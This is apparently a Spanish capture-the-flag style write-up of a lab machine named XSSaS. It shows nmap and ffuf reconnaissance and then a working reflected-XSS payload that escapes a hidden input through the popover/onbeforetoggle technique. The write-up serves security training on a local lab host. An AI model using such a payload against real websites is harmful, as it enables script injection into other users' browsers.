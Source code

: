 ```yaml
---
icon: flag
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# XSSaS BugBountyLabs (Experto)

## Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-19 03:37 EDT
Nmap scan report for 192.168.1.149
Host is up (0.00036s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 af:79:a1:39:80:45:fb:b7:cb:86:fd:8b:62:69:4a:64 (ECDSA)
|_  256 6d:d4:9d:ac:0b:f0:a1:88:66:b4:ff:f6:42:bb:f2:e5 (ED25519)
80/tcp open  http    Werkzeug/2.2.2 Python/3.11.2
|_http-server-header: Werkzeug/2.2.2 Python/3.11.2
|_http-title: Verificaci\xC3\xB3n de Usuario
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Server: Werkzeug/2.2.2 Python/3.11.2
|     Date: Wed, 19 Mar 2025 07:37:42 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 549
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="es">
|     <head>
|     <meta charset="UTF-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <title>Verificaci
|     Usuario</title>
|     </head>
|     <body>
|     <h1>Usuario no encontrado</h1>
|     <button id=y popovertarget=x>Click Here</button>
|     <form><input type="hidden" value=""></form>
|     <footer>
|     <hr>
|     <p>Powered by <strong>archyxsec</strong></p>
|     </footer>
|     <script>
|     Simulate a click :)
|     document.getElementById("y").click();
|     </script>
|     </body>
|     </html>
|   HTTPOptions: 
|     HTTP/1.1 200 OK
|     Server: Werkzeug/2.2.2 Python/3.11.2
|     Date: Wed, 19 Mar 2025 07:37:42 GMT
|     Content-Type: text/html; charset=utf-8
|     Allow: HEAD, OPTIONS, GET
|     Content-Length: 0
|     Connection: close
|   RTSPRequest: 
|     <!DOCTYPE HTML>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     <p>Error code: 400</p>
|     <p>Message: Bad request version ('RTSP/1.0').</p>
|     <p>Error code explanation: 400 - Bad request syntax or unsupported method.</p>
|     </body>
|_    </html>
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port80-TCP:V=7.94SVN%I=7%D=3/19%Time=67DA7445%P=x86_64-pc-linux-gnu%r(G
SF:etRequest,2D3,"HTTP/1\.1\x20200\x20OK\r\nServer:\x20Werkzeug/2\.2\.2\x2
SF:0Python/3\.11\.2\r\nDate:\x20Wed,\x2019\x20Mar\x202025\x2007:37:42\x20G
SF:MT\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x
SF:20549\r\nConnection:\x20close\r\n\r\n<!DOCTYPE\x20html>\n<html\x20lang=
SF:\"es\">\n<head>\n\x20\x20\x20\x20<meta\x20charset=\"UTF-8\">\n\x20\x20\
SF:x20\x20<meta\x20name=\"viewport\"\x20content=\"width=device-width,\x20i
SF:nitial-scale=1\.0\">\n\x20\x20\x20\x20<title>Verificaci\xc3\xb3n\x20de\
SF:x20Usuario</title>\n</head>\n<body>\n\x20\x20\x20\x20<h1>Usuario\x20no\
SF:x20encontrado</h1>\n\x20\x20\x20\x20<button\x20id=y\x20popovertarget=x>
SF:Click\x20Here</button>\n\x20\x20\x20\x20<form><input\x20type=\"hidden\"
SF:\x20value=\"\"></form>\n\x20\x20\x20\x20<footer>\n\x20\x20\x20\x20\x20\
SF:x20\x20\x20<hr>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Powered\x20by\x20<s
SF:trong>archyxsec</strong></p>\n\x20\x20\x20\x20</footer>\n\x20\x20\x20\x
SF:20<script>\n\x20\x20\x20\x20\x20\x20\x20\x20//\x20Simulate\x20a\x20clic
SF:k\x20:\)\n\x20\x20\x20\x20\x20\x20\x20\x20document\.getElementById\(\"y
SF:\"\)\.click\(\);\n\x20\x20\x20\x20</script>\n</body>\n</html>")%r(HTTPO
SF:ptions,C7,"HTTP/1\.1\x20200\x20OK\r\nServer:\x20Werkzeug/2\.2\.2\x20Pyt
SF:hon/3\.11\.2\r\nDate:\x20Wed,\x2019\x20Mar\x202025\x2007:37:42\x20GMT\r
SF:\nContent-Type:\x20text/html;\x20charset=utf-8\r\nAllow:\x20HEAD,\x20OP
SF:TIONS,\x20GET\r\nContent-Length:\x200\r\nConnection:\x20close\r\n\r\n")
SF:%r(RTSPRequest,16C,"<!DOCTYPE\x20HTML>\n<html\x20lang=\"en\">\n\x20\x20
SF:\x20\x20<head>\n\x20\x20\x20\x20\x20\x20\x20\x20<meta\x20charset=\"utf-
SF:8\">\n\x20\x20\x20\x20\x20\x20\x20\x20<title>Error\x20response</title>\
SF:n\x20\x20\x20\x20</head>\n\x20\x20\x20\x20<body>\n\x20\x20\x20\x20\x20\
SF:x20\x20\x20<h1>Error\x20response</h1>\n\x20\x20\x20\x20\x20\x20\x20\x20
SF:<p>Error\x20code:\x20400</p>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Messag
SF:e:\x20Bad\x20request\x20version\x20\('RTSP/1\.0'\)\.</p>\n\x20\x20\x20\
SF:x20\x20\x20\x20\x20<p>Error\x20code\x20explanation:\x20400\x20-\x20Bad\
SF:x20request\x20syntax\x20or\x20unsupported\x20method\.</p>\n\x20\x20\x20
SF:\x20</body>\n</html>\n");
MAC Address: 08:00:27:9C:CF:BC (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 87.97 seconds
```

Vemos que hay un `SSH` y un puerto `80`, si entramos en la pagina web del puerto `80` veremos lo siguiente:

<figure><img src="../../.gitbook/assets/image (305).png" alt=""><figcaption></figcaption></figure>

Ya de primeras podemos intuir que tiene que ver con algun parametro o algo que pueda estar detectando el si somos un usuario o no, si investigamos un poco veremos que nos esta pidiendo un usuario, pero si inspeccionamos la pagina veremos esta linea bastante interesante:

```html
<form><input type="hidden" value=""></form>
```

Esta escondido a nivel de pagina y el valor esta vacio, si por ejemplo probamos con poner `?user=` como parametro en la `URL` veremos lo siguiente:

```
URL = http://<IP>/?user=test
```

Info:

```html
<form><input type="hidden" value="test"></form>
```

Vemos que el valor se esta rellenando de forma correcta, pero igualmente tambien se puede hacer con un poco de `fuzzing`.

## FFUF

```shell
ffuf -u http://<IP>/\?FUZZ\=test -w <WORDLIST> -fs 549
```

Info:

```
        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.1.149/?FUZZ=test
 :: Wordlist         : FUZZ: /home/kali/Downloads/burp-parameter-names.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 549
________________________________________________

user                    [Status: 200, Size: 553, Words: 94, Lines: 21, Duration: 47ms]
:: Progress: [6453/6453] :: Job [1/1] :: 884 req/sec :: Duration: [0:00:07] :: Errors: 0 ::
```

Vemos que nos lo encontro de forma correcta, ahora vamos a probar a realizar un `XSS` en dicho parametro, que es de lo que se trata esta maquina.

```
URL = http://<IP>/?user="><script>alert('XSS')</script>
```

Pero nos respondera lo siguiente:

<figure><img src="../../.gitbook/assets/image (306).png" alt=""><figcaption></figcaption></figure>

Pero si intentamos un `Bypass` no nos dejara, si investigamos vemos este parametro de aqui:

<figure><img src="../../.gitbook/assets/image (307).png" alt=""><figcaption></figcaption></figure>

Y si buscamos que es nos vamos a encontrar con lo siguiente:

URL = [Info popovertarget](https://portswigger.net/research/exploiting-xss-in-hidden-inputs-and-meta-tags)

Vemos que utiliza un `payload` en concreto para realizar el `XSS` con dicho parametro o atributo, por lo que nuestro `payload` tiene que quedar de la siguiente forma:

```
"id=x popover onbeforetoggle="prompt(1)
```

Ahora si ejecutamos esto de la siguiente forma:

```
URL = http://<IP>/?user="id=x popover onbeforetoggle="prompt(1)
```

Veremos lo siguiente:

<figure><img src="../../.gitbook/assets/image (308).png" alt=""><figcaption></figcaption></figure>

Vemos que ha funcionado de forma correcta, por lo que habremos terminado la maquina.
